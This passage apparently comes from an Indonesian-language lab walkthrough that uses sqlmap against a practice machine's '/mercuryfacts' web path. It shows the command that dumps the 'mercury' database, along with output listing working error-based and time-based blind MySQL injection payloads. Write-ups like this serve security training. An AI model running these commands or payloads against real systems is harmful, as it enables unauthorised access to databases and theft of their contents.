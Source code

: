 ```bash
[23:35:42] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[23:35:42] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

[23:35:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.56.112'

[*] ending @ 23:35:42 /2025-09-28/

```

disitu kita melihat table ada 2 database yaitu `information_schema` dan `mercury`. kita akan fokus pada database `mercury`. selanjutnya kita akan melihat table apa saja yang ada di database `mercury` dengan command berikut:

```bash
$ sqlmap http://192.168.56.112:8080/mercuryfacts -D mercury --dump-all
```

dan outputnya seperti ini

```bash
        ___
       __H__                                                                                                                                      
 ___ ___["]_____ ___ ___  {1.9.8#stable}                                                                                                          
|_ -| . [,]     | .'| . |                                                                                                                         
|___|_  [,]_|_|_|__,|  _|                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:39:18 /2025-09-28/

[23:39:18] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] Y
[23:39:19] [INFO] resuming back-end DBMS 'mysql' 
[23:39:19] [INFO] testing connection to the target URL
got a 301 redirect to 'http://192.168.56.112:8080/mercuryfacts/'. Do you want to follow? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.56.112:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x716a717871,(SELECT (ELT(9327=9327,1))),0x7171707171),9327)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.56.112:8080/mercuryfacts/(CASE WHEN (4644=4644) THEN SLEEP(5) ELSE 4644 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
```